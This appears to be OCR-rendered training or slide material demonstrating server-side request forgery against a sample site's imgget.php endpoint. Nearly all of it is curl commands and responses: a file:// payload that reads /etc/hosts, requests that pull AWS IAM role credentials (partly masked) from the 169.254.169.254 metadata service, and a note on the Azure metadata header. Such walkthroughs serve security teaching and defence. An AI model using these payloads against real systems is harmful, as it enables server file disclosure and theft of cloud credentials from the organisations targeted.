 Local file disclosure

```
$ curl -v "http://login.falsimentis.com/imgget.php?logo=file:///etc/hosts"
> GET /imgget.php?logo=file:///etc/hosts HTTP/1.1
> Host: login.falsimentis.com
> User-Agent: curl/7.64.1
> Accept: */*
>
< HTTP/1.1 200 OK
< Content-Type: image/svg+xml
< Date: Wed, 13 Jan 2021 11:50:59 GMT
< Server: nginx/1.18.0
< X-Powered-By: PHP/7.3.14
< Content-Length: 174
< Connection: keep-alive
<
127.0.0.1 localhost
::1 localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
172.17.0.2 97002ef16edf
```

IMDS

```
[ec2-user ~]$ curl http://169.254.169.254/latest/user-data
autoscale,maxthreads,responsetimeout,resourcelimitm,resourcelimitctrue,18,12000,128,1600
```

```
$ curl -v http://login.falsimentis.com/imgget.php?logo=http://169.254.169.254/latest/meta-data/iam/security-credentials/; echo
aws-elasticbeanstalk-ec2-role
$ curl -v http://login.falsimentis.com/imgget.php?logo=http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanstalk-ec2-role/; echo
{
    "Code" : "Success",
    "LastUpdated" : "2021-01-13T11:51:30Z",
    "Type" : "AWS-HMAC",
    "AccessKeyId" : "ASIAXXXXXXXXXXXXEETO",
    "SecretAccessKey" : "Z/neXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXVT9",
    "Token" : IQoJbajhUv5lxwL...QpGZhzL6/BN4uVgBP/zZkhShLmmYHULH6r5p91uG+Q==",
    "Expiration" : "2021-01-13T18:07:24Z"
}
```

IMDS might need special header: `"Metadata: true"`, which is not easy to customize for attackers

```
$ curl --silent
"http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text"; echo
{ "error": "Bad request: . Required metadata header not specified" }
$ curl --silent -H "Metadata: true" "http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAdd
ress/0/publicIpAddress?api-version=2017-04-02&format=text"; echo
52.168.72.115
```
